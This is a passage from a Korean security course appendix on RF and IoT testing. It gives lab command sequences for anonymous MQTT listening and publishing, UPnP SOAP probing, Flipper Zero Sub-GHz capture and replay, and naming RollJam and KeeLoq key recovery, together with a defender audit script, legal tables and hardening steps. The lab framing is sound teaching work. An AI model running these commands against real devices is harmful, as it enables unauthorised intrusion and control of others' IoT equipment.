본문 2.3 의 *MQTT 포트 (1883)* 발견 후 실제 통신 검증. 회사 IoT 환경의
*인증 없는 MQTT broker* 가 흔한 취약점.

```bash
# 1. MQTT broker 발견 + 토픽 listen
mosquitto_sub -h 10.20.30.80 -t '#' -v
# (모든 토픽 listen — 인증 없으면 평문 노출)

# 2. 임의 publish (시연)
mosquitto_pub -h 10.20.30.80 -t 'sensor/temp' -m '99.9' -q 1
mosquitto_pub -h 10.20.30.80 -t 'cmd/light' -m 'OFF'

# 3. nmap NSE — MQTT 정보 수집
nmap -p 1883 --script mqtt-subscribe \
   --script-args 'mqtt-subscribe.topic=$SYS/#' 10.20.30.80

# 4. MQTT-PWN (자동 enumeration + brute)
git clone https://github.com/akamai-threat-research/mqtt-pwn /tmp/mqtt-pwn
cd /tmp/mqtt-pwn && pip3 install --user .
mqtt-pwn
# > scan 10.20.30.80
# > sniff 10.20.30.80

# 5. CoAP (UDP RESTful — 5683)
coap-client -m get coap://10.20.30.80/.well-known/core
coap-client -m get coap://10.20.30.80/sensors/1
```

#### 도구 7: nmap NSE + miranda — UPnP / SSDP 탐색 (s9)

본문 `nmap --script upnp-info` 의 보강. UPnP 는 IoT 흔한 취약점 (WPSCommand
exec, SSDP reflection DDoS).

```bash
# 1. UPnP / SSDP 자동 탐색 (NSE 다중 script)
nmap -sU -p 1900 --script "upnp-info,broadcast-upnp-info" \
   10.20.30.0/24

# 출력 예:
# Host: 10.20.30.51
#   1900/udp open|filtered upnp
#   | upnp-info:
#   |   <name>Smart TV</name>
#   |   <model>SmartTV-2024</model>
#   |   <manufacturer>SamSung</manufacturer>

# 2. miranda — interactive UPnP exploration
miranda
# > msearch                          # SSDP search
# > host list                        # 발견된 host
# > host info 0
# > host get 0 service               # 서비스 enumeration
# > host send 0 service action       # action 실행 (GetPortMappingEntry 등)

# 3. WPS / SOAP exploit 시도 (ipmi-utils 의 WPS exec 패턴)
curl -X POST http://10.20.30.51:1900/upnp/control/IGD \
   -H 'SOAPAction: "urn:WANPPPConnection:1#GetPortMappingEntryByIndex"' \
   -d '<s:Envelope xmlns:s="..."><s:Body>...</s:Body></s:Envelope>'

# 4. SSDP amplification 점검 (DDoS reflector 가능성)
echo -e 'M-SEARCH * HTTP/1.1\r\nHOST:239.255.255.250:1900\r\nMAN:"ssdp:discover"\r\nMX:1\r\nST:ssdp:all\r\n\r\n' \
   | nc -u -w2 239.255.255.250 1900
```

#### 도구 8: Flipper Zero CLI — qFlipper TUI 자동화 (s11)

Flipper Zero 는 USB-CDC 시리얼 — Python 으로 자동 제어 가능.

```bash
# 1. qFlipper 설치 (펌웨어 관리)
sudo apt install -y qflipper

# 2. Flipper CLI (`?` 으로 명령 목록)
qflipper-cli /dev/ttyACM0
# > subghz tx 433.92M am650 deadbeef
# > subghz rx 433.92M am650
# > subghz decode_raw /ext/subghz/Garage.sub

# 3. Python 자동화 (flipperzero-protobuf-py)
python3 << 'PY'
from flipperzero_protobuf_py.flipper_proto import FlipperProto
proto = FlipperProto(serial_port='/dev/ttyACM0')

# 디바이스 정보
info = proto.cmd_system_device_info()
print(f"Firmware: {info['firmware_branch']} {info['firmware_commit']}")

# Sub-GHz 캡처 디렉터리 listing
files = proto.rpc_storage_list('/ext/subghz')
for f in files:
    print(f['name'], f.get('size', 0))
PY

# 4. .sub 파일 구조 (Flipper Sub-GHz 표준)
cat /ext/subghz/Garage.sub
# Filetype: Flipper SubGhz RAW File
# Version: 1
# Frequency: 433920000
# Preset: FuriHalSubGhzPresetOok650Async
# Protocol: RAW
# RAW_Data: 348 -176 348 -176 ...
```

### RF 공격자 흐름 (정찰 → 캡처 → 분석 → 송신) 실 명령 시퀀스

```bash
#!/bin/bash
# attack-rf-flow.sh — RF 공격 시퀀스 (lab + RF 차폐실 전용)
set -e
LOG=/tmp/rf-$(date +%Y%m%d-%H%M%S).log

# 0. 환경 준비
echo "===== [0] SDR check =====" | tee -a $LOG
rtl_test -t 2>&1 | head -5 | tee -a $LOG

# 1. 광범위 wideband 스캔 (433MHz 주변)
echo "===== [1] Wideband scan =====" | tee -a $LOG
sudo timeout 60 rtl_433 -f 433.92M -A -F json:/tmp/rf-scan.jsonl 2>&1 | tee -a $LOG
jq -r '.model' /tmp/rf-scan.jsonl | sort | uniq -c | sort -rn | tee -a $LOG

# 2. 타겟 신호 캡처 (10초)
echo "===== [2] Target capture =====" | tee -a $LOG
TARGET_FREQ=433.92e6
rtl_sdr -f $TARGET_FREQ -s 1.024e6 -g 49 -n 10240000 /tmp/rf-target.cu8

# 3. URH 자동 분석 (bit stream 추출)
echo "===== [3] URH demod =====" | tee -a $LOG
urh_cli --rx_file /tmp/rf-target.cu8 --action analyze \
   --output /tmp/rf-bits.txt 2>&1 | tee -a $LOG
head -5 /tmp/rf-bits.txt | tee -a $LOG

# 4. rtl_433 사후 decode
echo "===== [4] Post-decode =====" | tee -a $LOG
rtl_433 -r /tmp/rf-target.cu8 -A | tee -a $LOG

# 5. (lab 한정) 재전송
echo "===== [5] Replay (lab only) =====" | tee -a $LOG
# hackrf_transfer -t /tmp/rf-target.complex16 -f 433920000 -s 8000000 -x 30
# (RF 차폐실 + 본인 자산 한정 — 절대 외부 송신 금지)

echo "===== [DONE] $(date) =====" | tee -a $LOG
```

### RF 방어자 흐름 (탐지 → 분류 → 대응 → 보고) 실 명령 시퀀스

```bash
#!/bin/bash
# defend-rf-flow.sh — RF 방어 + IoT 통합 점검
set -e
LOG=/tmp/rf-defend-$(date +%Y%m%d-%H%M%S).log

# 1. RF 환경 모니터링 (rtl_433 24h baseline)
echo "===== [1] RF baseline =====" | tee -a $LOG
sudo timeout 86400 rtl_433 -f 433.92M -A -F json:/var/log/rf-baseline.jsonl &
sleep 5     # 데모용 짧게

# 2. 신호 변화 탐지 (baseline 대비 신규 device id)
echo "===== [2] Anomaly =====" | tee -a $LOG
jq -r '.id // .model' /var/log/rf-baseline.jsonl | sort -u > /tmp/rf-known.txt
# 신규 발견 시 alert (운영: cron + diff)

# 3. IoT MQTT broker 점검 (인증 / 토픽 노출)
echo "===== [3] MQTT audit =====" | tee -a $LOG
nmap -p 1883 --script mqtt-subscribe \
   --script-args 'mqtt-subscribe.topic=$SYS/#' 10.20.30.0/24 \
   | grep -E "open|name|version" | tee -a $LOG

# 4. UPnP / SSDP 노출 점검
echo "===== [4] UPnP audit =====" | tee -a $LOG
nmap -sU -p 1900 --script upnp-info 10.20.30.0/24 \
   | grep -E "open|model|name" | tee -a $LOG

# 5. RF 자산 inventory (Sub-GHz device 목록)
echo "===== [5] Inventory =====" | tee -a $LOG
cat << REP > /tmp/rf-inventory.md
# RF 자산 Inventory

| 자산 | 주파수 | 프로토콜 | 보안 | 위험 |
|------|--------|---------|------|------|
| 차고 도어 | 433.92 MHz | Princeton (fixed) | 없음 | CRITICAL |
| 무선 초인종 | 433.92 MHz | Generic OOK | 없음 | HIGH |
| 차 리모컨 (Toyota) | 315 MHz | KeeLoq | rolling | MEDIUM |
| 무선 알람 | 868 MHz | Z-Wave (encrypted) | AES | LOW |
| TPMS (4륜) | 315 MHz | proprietary | 없음 | MEDIUM (위치추적) |
REP
cat /tmp/rf-inventory.md | tee -a $LOG

# 6. 보고
echo "===== [6] Report =====" | tee -a $LOG
cat << REP | tee -a $LOG
사건: RF 자산 Sub-GHz audit
탐지 시각: $(date)
탐지 경로: rtl_433 + nmap + nmap NSE
영향: CRITICAL 1건 (차고 도어 fixed code)
조치: 차고 도어 → 롤링 코드 OEM 모델 교체 (3개월 내)
교훈: 외부 노출 RF 자산은 *연 1회* 인벤토리 + RF 모니터링
REP
```

### 도구 비교표 (역할별 / 학습 시간 / 윤리)

| 도구 | 역할 | 가격 | 학습 시간 | 윤리 (TX) | lab 적합성 |
|------|------|------|-----------|-----------|-----------|
| RTL-SDR (RX) | 정찰 / 캡처 | $25 | 1시간 | 합법 (RX) | ★★★★★ |
| HackRF One | RX + TX | $300 | 4시간 | 격리 필수 | ★★★★ |
| YARD Stick One | Sub-GHz TX/RX | $100 | 2시간 | 격리 필수 | ★★★ |
| Flipper Zero | 멀티 + GUI | $170 | 1시간 | 격리 필수 | ★★★★ |
| LimeSDR / bladeRF | 광대역 연구 | $300+ | 1일+ | 격리 필수 | ★★★ |
| GNU Radio (GRC) | DSP framework | OSS | 1일 | OK | ★★★★★ |
| rtl_sdr CLI | 캡처 | OSS | 30분 | 합법 (RX) | ★★★★★ |
| rtl_433 | 200+ auto decode | OSS | 1시간 | 합법 (RX) | ★★★★★ |
| URH | GUI auto decode | OSS | 2시간 | 합법 (RX) | ★★★★★ |
| inspectrum | 시각 분석 | OSS | 30분 | 합법 (RX) | ★★★★ |
| sigrok-cli / pulseview | logic 분석 | OSS | 1시간 | 합법 | ★★★ |
| gqrx | 실시간 GUI | OSS | 30분 | 합법 (RX) | ★★★★★ |
| rfcat (Python) | YS1 자동화 | OSS | 2시간 | 격리 필수 | ★★★ |
| KeeloqLib | KeeLoq 분석 | OSS | 4시간 | 학술 한정 | ★★ |
| qFlipper | Flipper 관리 | OSS | 30분 | 격리 필수 | ★★★★ |
| flipperzero-protobuf-py | Flipper 자동화 | OSS | 1시간 | 격리 필수 | ★★★ |
| mosquitto-clients | MQTT | OSS | 30분 | OK | ★★★★★ |
| MQTT-PWN | MQTT exploit | OSS | 1시간 | 동의 필수 | ★★★ |
| coap-client | CoAP | OSS | 30분 | OK | ★★★★ |
| miranda-upnp | UPnP exploit | OSS | 1시간 | 동의 필수 | ★★★ |
| nmap NSE upnp-info | UPnP 정찰 | OSS | 30분 | OK | ★★★★★ |

### 프로토콜 보안 vs 도구 매트릭스

| 프로토콜 | 변조 | 보안 | 1차 도구 | 추가 공격 |
|---------|------|------|---------|-----------|
| Princeton (24bit) | OOK | None (fixed) | rtl_433 / URH | replay |
| Nice FLO (12bit) | OOK | None (4096 codes) | rtl_433 / URH | brute (~20분) |
| KeeLoq (66bit) | OOK | rolling (NXP) | rtl_433 / KeeloqLib | RollJam |
| Nice FLOR (52bit) | OOK | rolling | URH | (제한적) |
| CAME (12bit) | OOK | None (fixed) | rtl_433 | replay |
| Linear / Multi-Code | OOK | None (DIP switch) | rtl_433 | brute (~분) |
| KeeLoq classic (2008 분석) | OOK | rolling, key 복구 | KeeloqLib | 4 sample → key 복구 |
| Z-Wave (S0) | GFSK | rolling AES (취약 — Sigma 2013) | OpenZWave | KeyExchange MITM |
| Z-Wave (S2) | GFSK | ECDH + CCM | OpenZWave | (사실상 안전) |
| Zigbee | OQPSK | AES-128 | killerbee | join key intercept |
| BLE 4.x (legacy) | GFSK | LE Legacy Pairing | gattacker | passive crack |
| BLE 5.x (Secure) | GFSK | ECDH | (사실상 안전) | — |

### 윤리 / 법적 경계

| 행위 | 한국 전파법 / 정통망법 | 미국 FCC | 학습 환경 정당화 조건 |
|------|------------------------|----------|----------------------|
| RX (rtl_sdr / gqrx) 광범위 청취 | 합법 (수신 자유) | 합법 | 누구나 가능 |
| 본인 자산 TX (자기 차고) | 합법 (자기 자산) | 합법 | RF 차폐 권장 |
| 외부 차고 / 차 리모컨 TX | 전파법 §29 + 형법 §319 | FCC + state law | **절대 금지** |
| 433.92MHz CW jamming (lab) | 전파법 §29 (혼신금지) | FCC §333 | 차폐실 필수 |
| 외부 jamming | 전파법 §80 + §29 | FCC + criminal | **절대 금지** |
| KeeLoq 학술 PoC (자기 키) | 합법 (학술) | 합법 | 자기 자산 |
| KeeLoq 외부 키 복구 | 전파법 §49 + §29 | CFAA + FCC | **절대 금지** |
| MQTT broker 인증 없는 listen | 정통망법 §49 | CFAA | 자기 broker / 동의 |
| UPnP exec (외부) | 정통망법 §48 | CFAA | 자기 router / 동의 |
| TPMS RX (차량 위치 추적) | 합법 (RX) — 단 사생활 보호 | 합법 (RX) | 추적 시 §316 |
| Flipper TX 외부 | 전파법 §29 | FCC | **절대 금지** |

> **현장 원칙**: SDR / Flipper 모든 TX 모드는 *RF 격리* (차폐실 / 자기 자산
> + 100m 무인 대지) 필수. RX 는 광범위 학습 가능하지만 — *수신 내용*
> 의 외부 공유는 통신비밀보호법 §3 (불법 청취 정보 공개) 위반 가능. 학습
> 시 *원시 IQ 파일* + *디코드된 cleartext* 외부 노출 금지.

### 학생 자가 점검 체크리스트

- [ ] `rtl_test -t` 가 PASS 출력 (또는 RTL-SDR 없으면 PR/loaner 신청)
- [ ] `rtl_433 -f 433.92M -A` 60초 실행 → 1+ device 자동 decode 확인
- [ ] `rtl_sdr ... cap.cu8` 캡처 파일 생성 + URH 로 bit stream 추출
- [ ] GNU Radio Companion 으로 OOK 복조 flowgraph 1개 작성 + 실행
- [ ] Princeton / KeeLoq / Nice FLO 3 프로토콜의 *frequency / modulation
      / bit_time / security* 4 속성 답변 가능
- [ ] Fixed code vs Rolling code 의 *replay 공격 효과* 차이 답변 가능
- [ ] RollJam 5 step (jam-cap1 / 재누름 / jam-cap2 / replay-1 / cap2 보존)
      그림으로 그리기 가능
- [ ] mosquitto_sub 로 인증 없는 broker 의 모든 토픽 listen 가능
- [ ] nmap NSE 의 `upnp-info` / `mqtt-subscribe` 차이 답변 가능
- [ ] Flipper Zero `.sub` 파일의 frequency / preset / protocol / RAW_Data
      4 필드 의미 설명 가능
- [ ] 본 부록의 모든 TX 명령에 대해 "외부 송신 시 위반 법조항" 답변 가능
      (전파법 §29 §80 / 정통망법 §48-49 / FCC §333)

### 운영 환경 적용 시 주의

1. **TX 격리 의무** — 모든 SDR / Flipper TX 는 RF 차폐실 / 본인 자산 한정.
   외부 누설 시 전파법 §29 (혼신금지) 위반 — 형사 처벌 가능.
2. **RF 자산 inventory** — 회사 / 가정의 *Sub-GHz device 목록* 작성. 차고
   도어 / 무선 도어락 / 알람 / TPMS / IoT 센서 모두 포함. 연 1회 갱신.
3. **MQTT broker 인증 강제** — IoT 구축 시 mosquitto `allow_anonymous false`
   + `password_file` + TLS. 인증 없는 broker = 모든 IoT data 노출.
4. **UPnP 비활성** — 가정·회사 라우터의 UPnP 자동 포트 forwarding 은 외부
   노출 위험. 비활성 + 수동 포트만 허용.
5. **rolling code 펌웨어 업데이트** — KeeLoq 사용 차고 도어 / 차 리모컨은
   *2008 키 복구 발견 후* 의 펌웨어로 update. OEM 안내 확인.
6. **lab 캡처 보호** — RX 캡처 (.cu8 / .complex16) 는 *통신 내용 포함* 가능.
   lab 종료 시 `shred -u`. 외부 공유 시 통신비밀보호법 검토.
7. **저가 IoT 격리** — 433MHz / Zigbee / Z-Wave IoT 는 회사 LAN 과 격리된
   *IoT VLAN* 에 배치. 사고 발생 시 LAN 측 영향 최소화.

> 본 부록은 *학습 시연용 OSS 시퀀스* 이다. 실제 RF 침투 테스트는 RF 격리
> + 위촉 계약 + 전파법 사전 검토 + 자산 동의 4 요건 충족 시에만 수행한다.
> Flipper Zero 한 신호도 외부 누설 시 형사 처벌 대상.

---
